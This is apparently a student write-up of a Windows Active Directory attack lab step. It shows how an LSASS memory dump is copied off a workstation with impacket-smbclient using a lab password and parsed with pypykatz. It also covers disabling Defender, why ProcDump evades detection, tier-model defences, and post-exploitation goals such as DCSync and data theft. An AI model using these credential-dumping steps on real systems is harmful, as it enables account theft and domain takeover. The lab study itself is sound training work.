


# Windows Attack Lab - Step 10 - Situational Awareness & Credential Dumping on WS1

## Author
* Knöpfel, Daniel
* Duijts, Michael

## Methodology

Option A: Dumping Credentials via RDP Access  
To create a dump with Task Manager windows Defender must be deactivated.



Transfer lsass dump to kali with `impacket-smbclient`  
```
impacket-smbclient 'winattacklab.local/cclear:Welc0me2022!@10.0.1.103'
use c$
get Users\cclear\AppData\Local\Temp\lsass.DMP
```
To get information in a readable format `pypykatz` can be used.  
`pypykatz lsa minidump lsass.DMP >> pypykatz.log`  


## Answers

* What other tool than Pypykatz can extract the credentials from the dumped lsass memory?
  * Mimikatz
* Why didn’t we upload and run Mimkatz on WS1?
  * That would be too easily detected and blocked
* Why is ProcDump not detected as hacking tool?
  * Tools from SysInternals are useful and legit tools. Creating process dumps like ProcDump is a valid use case for trouble shooting (CPU spikes, debugging)
* Why can user ffast’s (A DOMAIN ADMIN’s) credentials be found in the LSASS memory of WS1?
  * Because he/she is logged in to WS1.WINATTACKLAB.LOCAL
* How should organizations prevent this kind of problem (domain admins logging in on “normal” servers using their domain admin accounts)?
  * Their active directory should be organized in Tiers ("Microsoft Admin Tier Model"). A domain admin (Tier 0) may not log in to a lower tier to prevent the NTML hash ending up in the LSASS process.
* Congrats. you are domain admin! And now what? How would you now test and exploit the domain admin privileges?
  * Domain controller (DC) sync: get all AD data from domain controller
  * Potentially, try to do the same for connected domain controllers (as the AD forest is the security boundaries)
  * Access server with sensitive business data and extract it
  * Lower security for specific machines to allow for hacking tools
  * The next steps depend a lot on our - the attackers - goal (espionage, money etc.).
